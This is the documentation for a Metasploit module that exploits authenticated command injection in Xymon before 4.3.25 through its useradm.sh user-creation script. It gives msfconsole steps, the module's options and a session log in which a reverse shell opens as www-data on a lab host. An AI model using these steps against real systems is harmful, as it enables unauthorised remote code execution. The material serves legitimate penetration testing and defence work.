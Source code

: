 ## Description

  This module exploits a command injection vulnerability in Xymon
  versions before 4.3.25 which allows authenticated users
  to execute arbitrary operating system commands as the web
  server user.

  When adding a new user to the system via the web interface with
  `useradm.sh`, the user's username and password are passed to
  `htpasswd` in a call to `system()` without validation.


## Vulnerable Software

  [Xymon](http://xymon.sourceforge.net/) is a system for monitoring servers and networks.

  This module has been tested successfully on:

  * Xymon version 4.3.10 on Debian 6.

  Xymon packages are available in software repositories for various Linux distributions :

  ```
  sudo apt-get install xymon
  ```

  Refer to http://xymon.sourceforge.net/xymon/help/install.html for more information.

  A Xymon virtual appliance is also available :

  * https://sourceforge.net/projects/xymon/files/Xymon/4.3.10/VM/

  To enable authentication via the web interface, add a user to `/etc/xymon/xymonpasswd` :

  ```
  htpasswd /etc/xymon/xymonpasswd <username>
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/xymon_useradm_cmd_exec`
  3. Do: `set rhosts <IP>`
  4. Do: `set username <username>`
  5. Do: `set password <password>`
  6. Do: `run`
  7. You should get a new session


## Options

### TARGETURI

  The base path to Xymon secure CGI directory (default: `/xymon-seccgi/`)

### USERNAME

  The username for Xymon

### PASSWORD

  The password for Xymon


## Scenarios

  ```
  msf > use exploit/unix/webapp/xymon_useradm_cmd_exec 
  msf exploit(unix/webapp/xymon_useradm_cmd_exec) > set rhosts xymon.local
  rhosts => xymon.local
  msf exploit(unix/webapp/xymon_useradm_cmd_exec) > set username admin
  username => admin
  msf exploit(unix/webapp/xymon_useradm_cmd_exec) > set password password
  password => password
  msf exploit(unix/webapp/xymon_useradm_cmd_exec) > set verbose true
  verbose => true
  msf exploit(unix/webapp/xymon_useradm_cmd_exec) > check

  [*] 10.1.1.132:80 - Xymon version 4.3.10
  [*] 10.1.1.132:80 - The target appears to be vulnerable.
  msf exploit(unix/webapp/xymon_useradm_cmd_exec) > run

  [*] Started reverse TCP handler on 10.1.1.170:4444 
  [*] 10.1.1.132:80 - Xymon version 4.3.10
  [+] 10.1.1.132:80 - Payload sent successfully
  [*] Command shell session 1 opened (10.1.1.170:4444 -> 10.1.1.132:47682) at 2019-07-02 09:43:13 -0400

  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  pwd
  /usr/lib/xymon/cgi-secure
  ls
  ackinfo.sh
  acknowledge.sh
  criticaleditor.sh
  enadis.sh
  useradm.sh
  uname -a
  Linux xymon 2.6.32-5-686 #1 SMP Sun May 6 04:01:19 UTC 2012 i686 GNU/Linux
  ```

